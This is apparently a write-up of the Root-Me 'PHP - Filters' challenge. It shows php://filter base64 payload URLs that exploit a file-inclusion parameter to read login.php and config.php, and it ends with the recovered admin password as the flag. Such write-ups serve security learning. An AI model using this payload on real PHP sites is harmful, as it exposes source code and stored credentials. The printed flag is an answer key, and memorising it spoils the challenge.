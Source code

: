 ```yaml
---
title: PHP - Filters
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 25
* Link: [https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

## Statement

> Retrieve the administrator password of this application.

## Solution

Click to login button, and look at the url
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=login.php
```

So ```$inc = $_GET['inc]``` will query to a page. I guess [```file_get_contents($inc)```](https://www.php.net/manual/en/function.file-get-contents.php) or [```include($inc)```](https://www.php.net/manual/en/function.include.php) function must have been used.

Try [PHP Conversion Filters](https://www.php.net/manual/en/filters.convert.php) to get page's PHP code

```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php
```

It works!

We got a PHP code encoded by [base64](https://www.base64encoder.io/learn/). Decode it and there is it, PHP code
```php
<?php
include("config.php");

if ( isset($_POST["username"]) && isset($_POST["password"]) ){
    if ($_POST["username"]==$username && $_POST["password"]==$password){
      print("<h2>Welcome back !</h2>");
      print("To validate the challenge use this password<br/><br/>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");
    }
} else {
?>

<form action="" method="post">
  Login&nbsp;<br/>
  <input type="text" name="username" /><br/><br/>
  Password&nbsp;<br/>
  <input type="password" name="password" /><br/><br/>
  <br/><br/>
  <input type="submit" value="connect" /><br/><br/>
</form>

<?php } ?>
```

The challenge said
```php
print("To validate the challenge use this password<br/><br/>");
```

So we need to find password.

There is another file, ```config.php```. ```password``` may be in that file. Now we will read it

```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php
```

```php
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
```

The flag is
```
DAPt9D2mky0APAF
```